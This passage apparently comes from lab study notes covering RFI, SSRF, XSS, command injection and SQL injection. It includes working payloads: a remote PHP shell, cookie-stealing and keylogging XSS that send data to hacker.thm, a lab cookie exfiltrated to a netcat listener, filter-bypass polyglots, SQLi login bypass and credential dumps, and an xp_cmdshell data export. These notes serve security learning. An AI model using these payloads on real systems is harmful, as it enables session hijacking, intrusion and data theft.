First, the attacker injects the malicious URL, which points to the attacker's server, such as `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a `GET` request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the `Hello THM` message.

<span style="font-size: 23px;">**Q&A**</span>

Gain RCE in Lab #Playground /playground.php with RFI to execute the hostname command. What is the output?

```bash
root@ip-10-10-134-215:~# cat php_shell.txt 
<?PHP print exec('hostname'); ?>
root@ip-10-10-134-215:~# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.165.105 - - [06/Jun/2025 16:17:12] "GET /php_shell.txt HTTP/1.1" 200 -
```

`http://10.10.165.105/playground.php?file=http://10.10.134.215:8000/php_shell.txt`

<div align=left></div>

## SSRF

### introduction

<span style="font-size: 23px;">**What is an SSRF?**</span>

SSRF stands for Server-Side Request Forgery. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

**Server Side Request Forgery** (SSRF) is a web vulnerability where an attacker manipulates a vulnerable application to make requests to internal or external resources on behalf of the server. This can lead to data exposure, unauthorised access to internal systems, or service disruptions.

<span style="font-size: 23px;">**Types of SSRF**</span>

There are two types of SSRF vulnerability; the first is a regular SSRF where data is returned to the attacker's screen. The second is a Blind SSRF vulnerability where an SSRF occurs, but no information is returned to the attacker's screen.

<span style="font-size: 23px;">**What's the impact?**</span>

A successful SSRF attack can result in any of the following: 

  - Access to unauthorised areas.
  - Access to customer/organisational data.
  - Ability to Scale to internal networks.
  - Reveal authentication tokens/credentials.

### SSRF Examples

The below example shows how the attacker can have complete control over the page requested by the webserver.
The Expected Request is what the website.thm server is expecting to receive, with the section in red being the URL that the website will fetch for the information.
The attacker can modify the area in red to an URL of their choice


The below example shows how an attacker can still reach the /api/user page with only having control over the path by utilising directory traversal. When website.thm receives ../ this is a message to move up a directory which removes the /stock portion of the request and turns the final request into /api/user


In this example, the attacker can control the server's subdomain to which the request is made. Take note of the payload ending in **&x=** being used to stop the remaining path from being appended to the end of the attacker's URL and instead turns it into a parameter (?x=) on the query string. 


Going back to the original request, the attacker can instead force the webserver to request a server of the attacker's choice. By doing so, we can capture request headers that are sent to the attacker's specified domain. These headers could contain authentication credentials or API keys sent by website.thm (that would normally authenticate to api.website.thm).


<span style="font-size: 23px;">**Q&A**</span>

Using what you've learnt, try changing the address in the browser below to force the webserver to return data from `https://server.website.thm/flag?id=9`. To make things easier the Server Requesting bar at the bottom of the mock browser will show the URL that website.thm is requesting：`https://website.thm/item/2`

`https://website.thm/item/2?server=server.website.thm/flag?id=9&x=`

### Defeating Common SSRF Defenses

More security-savvy developers aware of the risks of SSRF vulnerabilities may implement checks in their applications to make sure the requested resource meets specific rules. There are usually two approaches to this, either a deny list or an allow list.

**Deny List**

A Deny List is where all requests are accepted apart from resources specified in a list or matching a particular pattern. A Web Application may employ a deny list to protect sensitive endpoints, IP addresses or domains from being accessed by the public while still allowing access to other locations. A specific endpoint to restrict access is the localhost, which may contain server performance data or further sensitive information, so domain names such as localhost and 127.0.0.1 would appear on a deny list. Attackers can bypass a Deny List by using alternative localhost references such as 0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001 or subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.

Also, in a cloud environment, it would be beneficial to block access to the IP address 169.254.169.254, which contains metadata for the deployed cloud server, including possibly sensitive information. An attacker can bypass this by registering a subdomain on their own domain with a DNS record that points to the IP Address 169.254.169.254.

**Allow List**

An allow list is where all requests get denied unless they appear on a list or match a particular pattern, such as a rule that an URL used in a parameter must begin with `https://website.thm`. An attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as `https://website.thm.attackers-domain.thm`. The application logic would now allow this input and let an attacker control the internal HTTP request.

**Open Redirect**

If the above bypasses do not work, there is one more trick up the attacker's sleeve, the open redirect. An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address. Take, for example, the link `https://website.thm/link?url=https://tryhackme.com`. This endpoint was created to record the number of times visitors have clicked on this link for advertising/marketing purposes. But imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with `https://website.thm/`. An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.

[continued](../webapp/ServerSideAttacks.md#ssrf)

## Cross-site Scripting

Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users.

A type of security vulnerability typically found in web applications. It allows attackers to inject malicious scripts into web pages viewed by other users. These scripts can then steal sensitive information, like user's cookies, session tokens, or other sensitive data.

Cross-site scripting vulnerabilities are extremely common. Below are a few reports of XSS found in massive applications; you can get paid very well for finding and reporting these vulnerabilities.  

- [XSS found in Shopify](https://hackerone.com/reports/415484)
- [$7,500 for XSS found in Steam chat](https://hackerone.com/reports/409850)
- [$2,500 for XSS in HackerOne](https://hackerone.com/reports/449351)
- [XSS found in Infogram](https://hackerone.com/reports/283825)

### XSS Payloads

<span style="font-size: 23px;">**What is a payload?**</span>

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

The **intention** is what you wish the JavaScript to actually do, and the **modification** is the changes to the code we need to make it execute as every scenario is different.

**Proof Of Concept:**

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

`<script>alert('XSS');</script>`

`<iframe src="javascript:alert(`xss`)">`

**Session Stealing:**

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

**Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

**Business Logic:**

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

`<script>user.changeEmail('attacker@hacker.thm');</script>`

Now that the email address for the account has changed, the attacker may perform a reset password attack.

### Reflected XSS

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

**Example Scenario:** 

A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the error parameter in the query string and is built directly into the page source.

The application doesn't check the contents of the error parameter, which allows the attacker to insert malicious code.


The vulnerability can be used as per the scenario in the image below:


**Potential Impact:**

The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.

**How to test for Reflected XSS:**

You'll need to test every possible point of entry; these include:

- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected.

### Stored XSS

As the name infers, the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

**Example Scenario:**

A blog website that allows users to post comments. Unfortunately, these comments aren't checked for whether they contain JavaScript or filter out any malicious code. If we now post a comment containing JavaScript, this will be stored in the database, and every other user now visiting the article will have the JavaScript run in their browser.


**Potential Impact:**

The malicious JavaScript could redirect users to another site, steal the user's session cookie, or perform other website actions while acting as the visiting user.

**How to test for Stored XSS:**

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:

- Comments on a blog
- User profile information
- Website Listings

Sometimes developers think limiting input values on the client-side is good enough protection, so changing values to something the web application wouldn't be expecting is a good source of discovering stored XSS, for example, an age field that is expecting an integer from a dropdown menu, but instead, you manually send the request rather than using the form allowing you to try malicious payloads. 

Once you've found some data which is being stored in the web application,  you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected.

### DOM Based XSS

<span style="font-size: 23px;">**What is the DOM?**</span>

**DOM** stands for **Document Object Model** and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document, and this document can be either displayed in the browser window or as the HTML source. A diagram of the HTML DOM is displayed below:


If you want to learn more about the DOM and gain a deeper understanding [w3.org](https://www.w3.org/TR/REC-DOM-Level-1/introduction.html) have a great resource.

**Exploiting the DOM**

DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.

**Example Scenario:**

The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.

**Potential Impact:**

Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

**How to test for Dom Based XSS:**

DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "**window.location.x**" parameters.

When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as **eval()**.

### Blind XSS

Blind XSS is similar to a stored XSS in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

**Example Scenario:**

A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal.

**Potential Impact:**

Using the correct payload, the attacker's JavaScript could make calls back to an attacker's website, revealing the staff portal URL, the staff member's cookies, and even the contents of the portal page that is being viewed. Now the attacker could potentially hijack the staff member's session and have access to the private portal.
How to test for Blind XSS:

**How to test for Blind XSS:**

When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

A popular tool for Blind XSS attacks is [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express). Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more.

### Perfecting your payload

The payload is the JavaScript code we want to execute either on another user's browser or as a proof of concept to demonstrate a vulnerability in a website.

Your payload could have many intentions, from just bringing up a JavaScript alert box to prove we can execute JavaScript on the target website to extracting information from the webpage or user's session.

The aim for each level will be to execute the JavaScript alert function with the string THM, for example:

`<script>alert('THM');</script>`

**Level One:**

```html
<div class="text-center">
  <h2>Hello, Adam</h2>
</div>
```

`<script>alert('THM');</script>`

```html
<div class="text-center">
  <h2>Hello, <script>alert('THM');</script></h2>
</div>
```

**Level Two:**

```html
<div class="text-center">
  <h2>Hello, <input value="Adam"></h2>
</div>
```
we need to escape the input tag first so the payload can run properly. 

`"><script>alert('THM');</script>`

The important part of the payload is the `">` which closes the value parameter and then closes the input tag.

```html
<div class="text-center">
  <h2>Hello, <input value=""><script>alert('THM');</script>"&gt;</h2>
</div>
```

**Level Three:**

```html
<div class="text-center">
  <h2>Hello, <textarea>Adam</textarea></h2>
</div>
```
`</textarea><script>alert('THM');</script>`

The important part of the above payload is `</textarea>`, which causes the textarea element to close so the script will run.

```html
<div class="text-center">
  <h2>Hello, <textarea></textarea><script>alert('THM');</script></h2>
</div>
```
**Level Four:**

```html
<div class="text-center">
  <h2>Hello, <span class="name">Adam</span></h2>
</div>
<script>
  document.getElementsByClassName('name')[0].innerHTML='Adam';
</script>
```
`';alert('THM');//`

The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

```html
<div class="text-center">
  <h2>Hello, <span class="name"></span></h2>
</div>
<script>
  document.getElementsByClassName('name')[0].innerHTML='';alert('THM');//';
</script>
```

**Level Five:**

```html
<div class="text-center">
  <h2>Hello, <span class="name"></span></h2>
</div>
```

this level looks the same as level one, and your name also gets reflected in the same place. But if you try the `<script>alert('THM');</script>` payload, it won't work.

```html
<div class="text-center">
   <h2>Hello, <>alert('THM');</h2>
</div>
```
The word `script` gets removed from your payload, that's because there is a filter that strips out any potentially dangerous words.

When a word gets removed from a string, there's a helpful trick that you can try.

<div align=left></div>

`<sscriptcript>alert('THM');</sscriptcript>`

**Level Six**

```html
<div class="text-center">
  <h2>Your Picture</h2>
  
</div>
```

Similar to level two, where we had to escape from the value attribute of an input tag, we can try `"><script>alert('THM');</script>` , but that doesn't seem to work.

```html
<div class="text-center">
  <h2>Your Picture</h2>
  <!--  -->
  
</div>
```
You can see that the `<` and `>` characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the onload event. The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.

`/images/cat.jpg" onload="alert('THM');`

```html
<div class="text-center">
  <h2>Your Picture</h2>
  
</div>
```

**Polyglots:**

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

<span style="font-size: 23px;">**Q&A**</span>

What is the value of the staff-session cookie?

`</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>` closes the JavaScript code block.

`</textarea><script>fetch('http://10.10.198.157:9001?cookie=' + btoa(document.cookie) );</script>`

```bash
root@ip-10-10-198-157:~# nc -nlvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.144.38 35976
GET /?cookie=c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ== HTTP/1.1
Host: 10.10.198.157:9001
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/89.0.4389.72 Safari/537.36
Accept: */*
Origin: http://172.17.0.1
Referer: http://172.17.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

root@ip-10-10-198-157:~# echo 'c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ==' | base64 --decode
staff-session=4AB305E55955197693F01D6F8FD2D321
```

## Race Conditions

Race Condition is a situation in computer programs where the timing of events influences the behaviour and outcome of the program. It typically happens when a variable gets accessed and modified by multiple threads. Due to a lack of proper lock mechanisms and synchronization between the different threads, an attacker might abuse the system and apply a discount multiple times or make money transactions beyond their balance.

### Multi-Threading

<span style="font-size: 23px;">**Programs**</span>

A **program** is a set of instructions to achieve a specific task. You need to execute the program to accomplish what you want. Unless you execute it, it won’t do anything and remains a set of static instructions.

<span style="font-size: 23px;">**Processes**</span>

A **process** is a **program** in execution. In some literature, you might come across the term **job**. Both terms refer to the same thing, although the term process has superseded the term job. Unlike a program, which is static, a process is a dynamic entity. It holds several key aspects, in particular:

- **Program**: The executable code related to the process
- **Memory**: Temporary data storage
- **State**: A process usually hops between different states. After it is in the New state, i.e., just created, it moves to the Ready state, i.e., ready to run once given CPU time. Once the CPU allocates time for it, it goes to the Running state. Furthermore, it can be in the Waiting state pending I/O or event completion. Once it exits, it moves to the Terminated state.



<span style="font-size: 23px;">**Threads**</span>

A thread is a lightweight unit of execution. It shares various memory parts and instructions with the process.

In many cases, we need to replicate the same process repeatedly. Think of a web server serving thousands of users the same page (or a personalized page). We can adopt one of two main approaches:

- Serial: One process is running; it serves one user after the other sequentially. New users are enqueued.
- Parallel: One process is running; it creates a thread to serve every new user. New users are only enqueued after the maximum number of running threads is reached.

Generally speaking, a common cause of race conditions lies in shared resources. For example, when multiple threads concurrently access and modify the same shared data. Examples of shared data are a database record and an in-memory data structure. There are many subtle causes, but we will mention three common ones:

- **Parallel Execution**: Web servers may execute multiple requests in parallel to handle concurrent user interactions. If these requests access and modify shared resources or application states without proper synchronization, it can lead to race conditions and unexpected behaviour.
- **Database Operations**: Concurrent database operations, such as read-modify-write sequences, can introduce race conditions. For example, two users attempting to update the same record simultaneously may result in inconsistent data or conflicts. The solution lies in enforcing proper locking mechanisms and transaction isolation.
- **Third-Party Libraries and Services**: Nowadays, web applications often integrate with third-party libraries, APIs, and other services. If these external components are not designed to handle concurrent access properly, race conditions may occur when multiple requests or operations interact with them simultaneously.

### Web Application Architecture

<span style="font-size: 23px;">**Client-Server Model**</span>

Web applications follow a client-server model:

- **Client**: The client is the program or application that initiates the request for a service. For example, when we browse a web page, our web browser requests the web page (file) from a web server.
- **Server**: The server is the program or system that provides these services in response to incoming requests. For instance, the web server responds to an incoming HTTP `GET` request and sends an HTML page (or file) to the requesting web browser (client).

Generally speaking, the client-server model runs over a network. The client sends its request over the network, and the server receives it and processes it before sending back the required resource.

<span style="font-size: 23px;">**Typical Web Application**</span>

A web application follows a multi-tier architecture. Such architecture separates the application logic into different layers or tiers. The most common design uses three tiers:

- **Presentation tier**: In web applications, this tier consists of the web browser on the client side. The web browser renders the HTML, CSS, and JavaScript code.
- **Application tier**: This tier contains the web application’s business logic and functionality. It receives client requests, processes them, and interacts with the data tier. It is implemented using server-side programming languages such as Node.js and PHP, among many others.
- **Data tier**: This tier is responsible for storing and manipulating the application data. Typical database operations include creating, updating, deleting, and searching existing records. It is usually achieved using a database management system (DBMS); examples of DBMS include MySQL and PostgreSQL.


## Command Injection

**Command Injection** is a vulnerability that occurs when an attacker manipulates input fields to inject malicious commands into a vulnerable application. This can lead to unauthorised execution of arbitrary commands on the targeted server, potentially resulting in data breaches, system compromise, or unintended operations.

Command injection is also often known as “Remote Code Execution” (RCE) because of the ability to remotely execute code within an application. These vulnerabilities are often the most lucrative to an attacker because it means that the attacker can directly interact with the vulnerable system. For example, an attacker may read system or user files, data, and things of that nature.

In the context of command injection, a **payload** is a piece of data or code that is sent to the application in order to exploit a vulnerability. It typically includes commands that the attacker wants the application to execute. For example, if an application allows user input to be executed as a system command, the payload could be a malicious command intended to perform unauthorized actions on the server.

[Command Injection Payload List](https://github.com/payloadbox/command-injection-payload-list)

### Discovering Command Injection

This vulnerability exists because applications often use functions in programming languages such as PHP, Python and NodeJS to pass data to and to make system calls on the machine’s operating system. For example, taking input from a field and searching for an entry into a file. 

### Exploiting Command Injection 

You can often determine whether or not command injection may occur by the behaviours of an application.

Applications that use user input to populate system commands with data can often be combined in unintended behaviour. **For example, the shell operators `;`, `&` and `&&` will combine two (or more) system commands and execute them both**. 

Command Injection can be detected in mostly one of two ways:

1. Blind command injection
2. Verbose command injection

| Method | Description |
|---|---|
| Blind | This type of injection is where there is no direct output from the application when testing payloads. You will have to investigate the behaviours of the application to determine whether or not your payload was successful. |
| Verbose | This type of injection is where there is direct feedback from the application once you have tested a payload. For example, running the `whoami` command to see what user the application is running under. The web application will output the username on the page directly. |

<span style="font-size: 23px;">**Detecting Blind Command Injection**</span>

Blind command injection is when command injection occurs; however, there is no output visible, so it is not immediately noticeable. For example, a command is executed, but the web application outputs no message.

For this type of command injection, we will need to use payloads that will cause some time delay. For example, the `ping` and `sleep` commands are significant payloads to test with. Using `ping` as an example, the application will hang for x seconds in relation to how many pings you have specified.

Another method of detecting blind command injection is by forcing some output. This can be done by using redirection operators such as `>`. For example, we can tell the web application to execute commands such as `whoami` and redirect that to a file. We can then use a command such as `cat` to read this newly created file’s contents.

Testing command injection this way is often complicated and requires quite a bit of experimentation, significantly as the syntax for commands varies between Linux and Windows.

The `curl` command is a great way to test for command injection. This is because you are able to use `curl` to deliver data to and from an application in your payload. Take this code snippet below as an example, a simple curl payload to an application is possible for command injection.

`curl http://vulnerable.app/process.php%3Fsearch%3DThe%20Beatles%3B%20whoami`

<span style="font-size: 23px;">**Detecting Verbose Command Injection**</span>

Detecting command injection this way is arguably the easiest method of the two. Verbose command injection is when the application gives you feedback or output as to what is happening or being executed.

For example, the output of commands such as `ping` or `whoami` is directly displayed on the web application.

<span style="font-size: 23px;">**Useful payloads**</span>

I have compiled some valuable payloads for both Linux & Windows into the tables below.

**Linux**

| Payload | Description |
|---|---|
| whoami | See what user the application is running under. |
| ls | List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things. |
| ping | This command will invoke the application to hang. This will be useful in testing an application for blind command injection. |
| sleep | This is another useful payload in testing an application for blind command injection, where the machine does not have `ping` installed. |
| nc | Netcat can be used to spawn a reverse shell onto the vulnerable application. You can use this foothold to navigate around the target machine for other services, files, or potential means of escalating privileges. |

**Windows**

| Payload | Description |
|---|---|
| whoami | See what user the application is running under. |
| dir | List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things. |
| ping | This command will invoke the application to hang. This will be useful in testing an application for blind command injection. |
| timeout | This command will also invoke the application to hang. It is also useful for testing an application for blind command injection if the `ping` command is not installed. |

### Remediating Command Injection

Command injection can be prevented in a variety of ways. Everything from minimal use of potentially dangerous functions or libraries in a programming language to filtering input without relying on a user’s input. 

**Vulnerable Functions**

In PHP, many functions interact with the operating system to execute commands via shell; these include:

- Exec
- Passthru
- System

Take this snippet below as an example. Here, the application will only accept and process numbers that are inputted into the form. This means that any commands such as `whoami` will not be processed.

```php
<input type="text" id="ping" name="ping" pattern="[0-9]+"></input> 
<?php 
echo passthru("/bin/ping -c 4 "$_GET["ping"]."); 

?>
```

**Input sanitisation**

Sanitising any input from a user that an application uses is a great way to prevent command injection. This is a process of specifying the formats or types of data that a user can submit. For example, an input field that only accepts numerical data or removes any special characters such as `>`, `&` and `/`.

In the snippet below, the `filter_input` [PHP function](https://www.php.net/manual/en/function.filter-input.php) is used to check whether or not any data submitted via an input form is a number or not. If it is not a number, it must be invalid input.

```php
<?php

if (!filter_input(INPUT_GET, "number", FILTER_VALIDATE_NUMBER)) {

}
```
**Bypassing Filters**

Applications will employ numerous techniques in filtering and sanitising data that is taken from a  user's input. These filters will restrict you to specific payloads; however, we can abuse the logic behind an application

When executed, although the data given will be in a different format than what is expected, it can still be interpreted and will have the same result.

```php
$payload = "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
```
## SQL Injection

**SQL (Structured Query Language) Injection**, mostly referred to as SQLi, is an attack on a web application database server that causes malicious queries to be executed. When a web application communicates with a database using input from a user that hasn't been properly validated, there runs the potential of an attacker being able to steal, delete or alter private and customer data and also attack the web application authentication methods to private or customer areas. This is why SQLi is one of the oldest web application vulnerabilities, and it can also be the most damaging.

The point wherein a web application using SQL can turn into SQL Injection is when user-provided data gets included in the SQL query.


### In-Band SQLi

**In-Band SQL Injection** is the easiest type to detect and exploit; In-Band just refers to the same method of communication being used to exploit the vulnerability and also receive the results, for example, discovering an SQL Injection vulnerability on a website page and then being able to extract data from the database to the same page.

<span style="font-size: 23px;">**Error-Based SQL Injection**</span>

This type of SQL Injection is the most useful for easily obtaining information about the database structure, as error messages from the database are printed directly to the browser screen. This can often be used to enumerate a whole database. 

Example: `SELECT * FROM users WHERE id = 1 AND 1=CONVERT(int, (SELECT @@version))`. If the database version is returned in the error message, it reveals information about the database.

The key to discovering error-based SQL Injection is to break the code's SQL query by trying certain characters until an error message is produced; these are most commonly single apostrophes ( ' ) or a quotation mark ( " ).

`https://website.thm/article?id=1'`

if returns an SQL error informing you of an error in your syntax,SQL Injection vulnerability exist

<span style="font-size: 23px;">**Union-Based SQL Injection**</span>

This type of Injection utilises the SQL UNION operator alongside a SELECT statement to return additional results to the page. This method is the most common way of extracting large amounts of data via an SQL Injection vulnerability.

```bash
# return data to the browser without displaying an error message
id=0 UNION SELECT 1,2,3

# get the database name that we have access to
0 UNION SELECT 1,2,database()

# gather a list of tables that are in this database
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

# utilise the information_schema database again to find the structure of this table 
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

# retrieve the user's information
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users

```


- `group_concat()` gets the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas. 
- `information_schema` every user of the database has access to this, and it contains information about all the databases and tables the user has access to. 

- `<br>` the HTML `<br>` tag that forces each result to be on a separate line to make for easier reading.

---

### Inferential(Blind) SQLi

Unlike In-Band SQL injection, where we can see the results of our attack directly on the screen, blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless. It might surprise you that all we need is that little bit of feedback to successfully enumerate a whole database.

<span style="font-size: 23px;">**Authentication Bypass**</span>

One of the most straightforward Blind SQL Injection techniques is when bypassing authentication methods such as login forms. In this instance, we aren't that interested in retrieving data from the database; We just want to get past the login. 

Login forms that are connected to a database of users are often developed in such a way that the web application isn't interested in the content of the username and password but more in whether the two make a matching pair in the users table. In basic terms, the web application is asking the database, "Do you have a user with the username bob and the password bob123?" the database replies with either yes or no (true/false) and, depending on that answer, dictates whether the web application lets you proceed or not. 

Taking the above information into account, it's unnecessary to enumerate a valid username/password pair. We just need to create a database query that replies with a yes/true.

**Practical:**

**Original**

`select * from users where username='%username%' and password='%password%' LIMIT 1;`

**inject**

enter the following into the password field:

`' OR 1=1;--`

**result**

 turns the SQL query into the following:
`select * from users where username='' and password='' OR 1=1;`

<span style="font-size: 23px;">**Boolean Based**</span>

Boolean-based SQL Injection refers to the response we receive from our injection attempts, which could be a true/false, yes/no, on/off, 1/0 or any response that can only have two outcomes. That outcome confirms that our SQL Injection payload was either successful or not. On the first inspection, you may feel like this limited response can't provide much information. Still, with just these two responses, it's possible to enumerate a whole database structure and contents.

**Practical:**

**Original**

url: `https://website.thm/checkuser?username=admin`

SQL Query: `select * from users where username = 'admin' LIMIT 1`

**inject**

url: `https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 where database() like '%';--`

SQL Query: `select * from users where username = 'admin123' UNION SELECT 1,2,3 where database() like '%';--' LIMIT 1`


<span style="font-size: 23px;">**Time Based**</span>

A time-based blind SQL injection is very similar to the above boolean-based one in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced using built-in methods such as **SLEEP(x)** alongside the UNION statement. The SLEEP() method will only ever get executed upon a successful UNION SELECT statement. 

`referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--`

---

### Out-of-Band SQLi

Out-of-band (OOB) SQL injection is an attack technique that pentester/red teamers use to exfiltrate data or execute malicious actions when direct or traditional methods are ineffective. Unlike In-band SQL injection, where the attacker relies on the same channel for attack and data retrieval, Out-of-band SQL injection utilises separate channels for sending the payload and receiving the response. Out-of-band techniques leverage features like HTTP requests, DNS queries, SMB protocol, or other network protocols that the database server might have access to, enabling attackers to circumvent firewalls, intrusion detection systems, and other security measures.

Out-of-band SQL Injection isn't as common as it either depends on specific features being enabled on the database server or the web application's business logic, which makes some kind of external network call based on the results from an SQL query.


One of the key advantages of Out-of-band SQL injection is its stealth and reliability. By using different communication channels, attackers can minimise the risk of detection and maintain a persistent connection with the compromised system. For instance, an attacker might inject a SQL payload that triggers the database server to make a DNS request to a malicious domain controlled by the attacker. The response can then be used to extract sensitive data without alerting security mechanisms that monitor direct database interactions. This method allows attackers to exploit vulnerabilities even in complex network environments where direct connectivity between the attacker and the target is limited or scrutinised. 

An Out-Of-Band attack is classified by having two different communication channels, one to launch the attack and the other to gather the results. For example, the attack channel could be a web request, and the data gathering channel could be monitoring HTTP/DNS requests made to a service you control.

1. An attacker makes a request to a website vulnerable to SQL Injection with an injection payload.
2. The Website makes an SQL query to the database, which also passes the hacker's payload.
3. The payload contains a request which forces an HTTP request back to the hacker's machine containing data from the database.


<span style="font-size: 23px;">**Techniques in Different Databases**</span>

Out-of-band SQL injection attacks utilise the methodology of writing to another communication channel through a crafted query. This technique is effective for exfiltrating data or performing malicious actions when direct interaction with the database is restricted. There are multiple commands within a database that may allow exfiltration, but below is a list of the most commonly used in various database systems:

**MySQL and MariaDB**

In MySQL or MariaDB, Out-of-band SQL injection can be achieved using [SELECT ... INTO OUTFILE](https://dev.mysql.com/doc/refman/8.0/en/select-into.html) or [load_file](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file) command. This command allows an attacker to write the results of a query to a file on the server's filesystem. For example:

```sql
SELECT sensitive_data FROM users INTO OUTFILE '/tmp/out.txt';
```
An attacker could then access this file via an SMB share or HTTP server running on the database server, thereby exfiltrating the data through an alternate channel.

**Microsoft SQL Server (MSSQL)**

In MSSQL, Out-of-band SQL injection can be performed using features like [xp_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16), which allows the execution of shell commands directly from SQL queries. This can be leveraged to write data to a file accessible via a network share:

```bash
EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';
```
Alternatively, `OPENROWSET` or `BULK INSERT` can be used to interact with external data sources, facilitating data exfiltration through OOB channels.

**Oracle**

